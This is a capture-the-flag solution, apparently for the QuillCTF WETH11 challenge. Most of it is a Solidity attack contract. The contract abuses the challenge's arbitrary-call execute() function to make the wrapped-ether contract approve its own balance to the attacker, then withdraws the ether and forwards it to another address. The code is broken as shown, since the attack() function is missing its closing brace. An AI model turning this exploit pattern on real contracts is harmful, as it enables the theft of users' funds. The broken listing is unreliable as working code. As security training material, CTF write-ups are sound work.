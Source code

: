 ###WETH11 Quill CTF
Solution by 2pats

The execute() function of the CTF allows arbitrary execution of data to any address, including the WETH11 contract. We can exploit by calling ERC20 approve() on behalf of the token contract, then withdrawing and sending ether to bob.

### Implementation

```
pragma solidity ^0.8.0;

import "../instances/WETH11.sol";

// The Angel Di Maria Wrapped Ether
contract WETH11Solution {
WETH11 immutable target;
address immutable bob;

    constructor(address _target, address _bob) {
        target = WETH11(payable(_target));
        bob = _bob;
    }

    function attack() external  {
        uint amount = target.balanceOf(address(target));
        target.execute(address(target),0,abi.encodeWithSignature("approve(address,uint256)", address(this) , amount));

        target.transferFrom(address(target), address(this), amount);
        target.withdrawAll();
        payable(bob).transfer(amount);



    receive() external payable {}

}
```
